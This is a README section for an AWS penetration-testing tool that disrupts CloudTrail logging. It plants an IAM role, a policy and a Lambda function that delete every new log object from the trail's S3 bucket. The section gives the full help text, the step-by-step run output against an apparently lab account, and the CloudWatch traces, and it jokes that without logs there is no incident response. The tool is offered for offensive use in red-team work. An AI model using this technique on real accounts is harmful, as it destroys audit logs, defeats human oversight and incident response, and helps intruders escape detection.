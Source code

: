 
## AWS-related penetration testing scripts, tools and Cheatsheets

- **`disruptCloudTrailByS3Lambda.py`** - This script attempts to disrupt CloudTrail by planting a Lambda function that will delete every object created in S3 bucket bound to a trail. As soon as CloudTrail creates a new object in S3 bucket, Lambda will kick in and delete that object. No object, no logs. No logs, no Incident Response :-)

One will need to pass AWS credentials to this tool. Also, the account affected should have a bunch of required permissions.

Following changes are introduced to a specified AWS account:
- IAM role will be created, by default with name: `cloudtrail_helper_role`
- IAM policy will be created, by default with name: `cloudtrail_helper_policy`
- Lambda function will be created, by default with name: `cloudtrail_helper_function`
- Put Event notification will be configured on affected CloudTrail S3 buckets.

This tool will fail upon first execution with the following exception:

```
[-] Could not create a Lambda function: An error occurred (InvalidParameterValueException) when calling the CreateFunction operation: The role defined for the function cannot be assumed by Lambda.
```

At the moment I did not find an explanation for that, but running the tool again with the same set of parameters - get the job done.

```
bash $ python3 disruptCloudTrailByS3Lambda.py --help

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

usage: disruptCloudTrailByS3Lambda.py [options] <region> [trail_name]

required arguments:
  region                AWS region to use.
  --access-key ACCESS_KEY
                        AWS Access Key ID
  --secret-key SECRET_KEY
                        AWS Access Key ID
  --token TOKEN         AWS temporary session token

optional arguments:
  trail_name            CloudTrail name that you want to disrupt. If not
                        specified, will disrupt every actively logging trail.
  --disrupt             By default, this tool will install Lambda that is only
                        logging that it could remove S3 objects. By using this
                        switch, there is going to be Lambda introduced that
                        actually deletes objects.
  --role-name ROLE_NAME
                        name for AWS Lambda role
  --policy-name POLICY_NAME
                        name for a policy for that Lambda role
  --function-name FUNCTION_NAME
                        name for AWS Lambda function


bash $ python3 disruptCloudTrailByS3Lambda.py --access-key ASIAXXXXXXXXXXXXXXXX --secret-key Gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa --token FQoGZX[...] us-west-2

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

[.] Will be working on Account ID: 712800000000
[.] Step 1: Determine trail to disrupt
[+] Trail cloudgoat_trail is actively logging (multi region? No).
[.] Trails intended to be disrupted:
	- cloudgoat_trail

[.] Step 2: Create a role to be assumed by planted Lambda
[-] Role with name: cloudtrail_helper_role already exists.
[.] Step 3: Create a policy for that role
[-] Policy with name: cloudtrail_helper_policy already exists.
[.] Step 4: Attach policy to the role
[.] Attaching policy (arn:aws:iam::712800000000:policy/cloudtrail_helper_policy) to the role cloudtrail_helper_role
[-] Policy is already attached.
[.] Step 5: Create Lambda function
[.] 	Using non-disruptive lambda.
[.] Creating a lambda function named: cloudtrail_helper_function on Role: arn:aws:iam::712800000000:role/cloudtrail_helper_role
[+] Function created.
[.] Step 6: Permit function to be invoked on all trails
[.] Adding invoke permission to func: cloudtrail_helper_function on S3 bucket: arn:aws:s3:::90112981864022885796153088027941100000000000000000000000
[.] Step 7: Configure trail bucket's put notification
[.] Putting a bucket notification configuration to 90112981864022885796153088027941100000000000000000000000, ARN: arn:aws:lambda:us-west-2:712800000000:function:cloudtrail_helper_function
[+] Installed CloudTrail's S3 bucket disruption Lambda.
```

Afterwards, one should see following logs in CloudWatch traces for planted Lambda function - if no `--disrupt` option was specified:

```
[*] Following S3 object could be removed: (Bucket=90112981864022885796153088027941100000000000000000000000, Key=cloudtrail/AWSLogs/712800000000/CloudTrail/us-west-2/2019/03/20/712800000000_CloudTrail_us-west-2_20190320T1000Z_oxxxxxxxxxxxxc.json.gz)
```

